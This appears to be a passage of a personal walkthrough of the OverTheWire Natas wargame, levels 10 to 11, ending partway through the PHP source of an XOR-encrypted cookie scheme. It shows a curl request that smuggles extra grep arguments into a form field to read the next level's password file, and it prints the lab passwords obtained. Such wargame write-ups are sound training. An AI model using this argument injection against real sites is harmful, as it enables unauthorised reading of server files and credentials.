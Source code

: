 lol this should be easy, I guess they want me to use cat or something the prev level..

```
abs@MacBookPro ~ % curl "natas10.natas.labs.overthewire.org/" -u natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu -s -d "needle=. /etc/natas_webpass/natas11 --exclude  & submit="
Output:
<pre>
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
</pre>
```


# Level 10 -> 11:
```
abs@MacBookPro ~ % curl "natas11.natas.labs.overthewire.org/" -u natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk -s                                                       
<h1>natas11</h1>
<div id="content">
<body style="background: #ffffff;">
Cookies are protected with XOR encryption<br/><br/>


<form>
Background color: <input name=bgcolor value="#ffffff">
<input type=submit value="Set color">
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
```